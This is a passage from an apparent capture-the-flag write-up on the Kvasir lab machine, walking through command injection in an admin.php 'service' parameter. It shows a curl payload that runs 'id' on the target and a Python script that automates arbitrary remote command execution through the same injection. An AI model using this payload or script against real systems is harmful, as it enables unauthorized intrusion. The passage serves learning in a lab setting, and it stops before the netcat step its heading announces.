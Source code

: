 So, with our payload, we have modified this to run `/etc/init.d/apache2; status`, which will fail for obvious reasons! A little more fiddling finally got me to a working payload by posting `service=` as `;echo 'id';` where the single quotes are actually back ticks. (octopress grrr)

```bash
root@kali:~# curl 'http://192.168.56.102/admin.php' --data 'service=;echo `id`;'

[... snip ...]

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

## netcat is our entry into the rabbit hole
With the command injection now exploitable, I grabbed some skeleton code that I normally use to try and make these types of command execution vulnerabilities slightly easier to work with. The basic premise is to have the command executed, and the response regex'd out. This ended up as the following python script:

```python
#!/usr/bin/python

# Kvasir Command Execution

# $ python cmd.py "uname -a"
# Command to run: uname -a
#
# Linux web 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64 GNU/Linux

import requests
import re
import sys
import os
import binascii

print 'Command to run: %s' % sys.argv[1]

# generate 2 random strings so that we can regex out the command output
command_start = binascii.b2a_hex(os.urandom(30))
command_end = binascii.b2a_hex(os.urandom(30))

# prepare something that we can regex out
params = {'service' : ';echo %s; echo `%s`; echo %s;' % (command_start, sys.argv[1], command_end) }

#fetch, ignoring the troll redirect
r = requests.post('http://192.168.56.102/admin.php', params, allow_redirects=False)

#match regex and print
print  re.findall(r'%s([^|]+)%s' % (command_start, command_end), r.text)[0].replace('\n%s\n' % command_end,'')
```

So, now I can just run `python cmd.py "id"` and get the output (the *(kvasir)* in front of my prompt is my python virtualenv where I installed the `requests` dependency):
